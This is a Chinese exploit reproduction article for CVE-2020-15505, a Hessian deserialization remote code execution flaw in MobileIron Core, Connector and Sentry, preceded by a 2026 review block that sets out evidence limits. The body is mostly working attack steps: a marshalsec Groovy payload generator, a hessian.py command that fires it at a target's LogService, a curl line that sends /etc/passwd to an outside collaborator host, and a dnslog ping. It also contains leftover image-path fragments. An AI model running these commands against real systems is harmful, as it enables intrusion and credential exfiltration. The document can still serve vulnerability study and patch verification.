




# （CVE-2020-15505）MobileIron 远程命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：MobileIron Core/Connector/Sentry声称范围
- 本文讨论：CVE-2020-15505
- 版本、权限与配置前提：Core/Connector≤10.6、Sentry≤9.8声称；Groovy gadget，LogService可达
- 资料类型：Hessian反序列化复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 访问LogService能连接不等于漏洞存在
- Sentry/Core产品范围与同一/mifs入口需核，不能一个请求覆盖所有产品
- 外部hessian.py/ZIP未随文且未固定版本；DNS命令末尾多引号，图片残余路径
- curl上传passwd并非普通DNS检测，需描述数据外传性质
- 已落实的文本修订：补齐文章标题。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 回连样例可能向外部地址发送网络请求或建立会话；应使用自己的隔离回连服务，DNS/LDAP 到达只能证明相应交互，不能单独证明 RCE

### 待核与来源

- 官方产品/版本矩阵、附件源码及图片待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

（CVE-2020-15505）MobileIron 远程命令执行漏洞
=============================================

一、漏洞简介
------------

MobileIron Sentry等都是美国思可信（MobileIron）公司的产品。MobileIron
Sentry是一款智能网关产品。MobileIron
Core是一款MobileIron平台的管理控制台组件。MobileIron
Connector是一款MobileIron平台的连接器组件。 MobileIron Core
10.6及之前版本、Connector 10.6及之前版本和Sentry
9.8及之前版本中存在安全漏洞。远程攻击者可利用该漏洞执行任意代码。

二、漏洞影响
------------

MobileIron Core 10.6及之前版本、Connector 10.6及之前版本和Sentry
9.8及之前版本

三、复现过程
------------

访问`https://www.0-sec.org/mifs/.;/services/LogService`

MobileIron远程命令执行漏洞/media/rId24.png)

确认存在该漏洞位置连接。

在vps执行

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian Groovy "/bin/bash" "-c" "<Command>" > exp.ser

MobileIron远程命令执行漏洞/media/rId25.png)

然后再执行

    python hessian.py -u 'https://target.0-sec.org/mifs/.;/services/LogService' -p exp.ser

MobileIron远程命令执行漏洞/media/rId26.png)

**dnslog 使用姿势补充**

    curl http://xxxxx.burpcollaborator.net -F "file=@/etc/passwd;"

    ping `whoami`.xxx.dnslog.cn"

MobileIron远程命令执行漏洞/media/rId27.png)

### poc

> https://download.0-sec.org/Web安全/MobileIron/CVE-2020-15505.zip

参考链接
--------

> https://github.com/iamnoooob/CVE-Reverse
